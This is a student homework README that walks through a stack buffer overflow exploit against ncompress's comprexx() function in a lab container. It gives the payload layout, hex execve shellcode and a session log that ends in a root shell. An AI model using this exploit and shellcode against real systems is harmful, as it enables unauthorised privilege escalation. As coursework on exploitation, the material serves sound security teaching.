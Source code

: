 # Homework #0
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150)

*For the second part of Homework #0 ("Running our first devsecops pipeline") check the `successful_run.txt` file or visit the public repository directly:
https://github.com/moraitisteo/devsecops-pipeline*
## Our first exploit: Control flow hijack with shellcode injection

This readme details how the buffer overflow exploit was crafted and executed against the vulnerable `compress42.c` program (`ncompress` executable). The objective was to overflow the buffer in the `comprexx()` function and hijack the control flow to execute our shellcode, which spawns a root shell.


## Overview

The vulnerable program contains a function `comprexx()` which is being called when `ncompress` is called like this:
```
~$ ncompress arg
```
, where arg is a string (character array) representing the file path for processing. `comprexx()` allocates a local buffer (`tempname`) of size `MAXPATHLEN` (1024 bytes). By overflowing this buffer with a carefully structured payload, I can overwrite the function's return address, redirect execution into a NOP sled, and eventually run our shellcode.

The payload is constructed with the following layout:
- **Junk Data:** Fills the buffer until the return address.
- **Return Address:** Overwrites the original return address to point somewhere into the NOP sled.
- **NOP Sled:** A series of NOP instructions (`\x90`) that provide a sled landing in the shellcode.
- **Shellcode:** Assembly instructions that execute a root shell.


## Payload Construction

My Python script (exploit.py) constructs the payload step-by-step:<br>
*(exploit.py is also full of comments describing these steps)*

1. **Junk Data:**  
    The exploit uses 1072 bytes of data to overflow the buffer until the return address. Through iterative testing (observing segmentation faults and checking with `dmesg`), I determined that 1072 bytes are required. I then use 1068 bytes of junk so that the last 4 bytes exactly overwrite the return address itself.
    ```python
    payload += b"A" * 1068
    ```
2. **Overwriting the Return Address:**
    The next 4 bytes overwrite the return address. I use as address the value SP (Stack Pointer) had at the time of the segfault during the testing with junk data. An offset (here, 12000) is added to the SP value so that the exploit has more possibilities to work in different environments.
    ```python
    payload += struct.pack("<I", 0xffff7fb0 + 12000)
    ```

3. **NOP Sled:**
    A large NOP sled of 24000 bytes (NOPs) is added. This increases the likelihood that the overwritten return address will redirect execution into the NOP sled, eventually sliding into our shellcode.
    ```python
    payload += b"\x90" * 24000
    ```
4. **Shellcode:**
    The shellcode spawns a shell as root and is appended at the end of the payload. This is the same shellcode used at class paradigms.
    ```python
    payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

## Exploitation Process

1. **Vulnerability Analysis:**
    The source code of ncompress (compress42.c) shows that thecomprexx() function uses a local buffer of fixed size (1024bytes). Overflowing this buffer allows us to overwrite thereturn address on the stack.

2. **Determining the position of the return address:**
    I tested the exploit with increasing junk data until a segmentation fault occurred (starting with 1024 A's and going up). While segfault started to happen, using dmesg, the IP (Instruction Pointer) should be overwritten with 41414141 (the hexadecimal representation of "AAAA"). The moment this happened was at 1072 bytes (A's), so I concluded that at 1068 byte the return address was placed, and this is where I should overwritte it with my own return address.

3. **Crafting the Payload:**
    The payload layout ensures that the overwritten return address points into the large NOP sled, allowing the program execution flow to "slide" into the shellcode. The shellcode then executes, spawning a shell with root privileges.

4. **Launching the Exploit:**
    The payload is saved (for example, in a file named payload). The exploit is launched by giving the payload as an argument into the `ncompress` program.

A successful invocation follows (where `...` there were many A's and �'s respectively):

```
teomor@teomor-ThinkPad-Ubuntu:~$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@7461aee61d58:~$ echo hello | ncompress
��hʰa�Fubuntu@7461aee61d58:~$ python3 /exploit.py > payload
ubuntu@7461aee61d58:~$ whoami
ubuntu
ubuntu@7461aee61d58:~$ ncompress `cat payload`
AAAA...AAAA����...����1�Ph//shh/bin����°
                                                                                      ̀1�@̀: File name too long
# whoami
root
# 
```
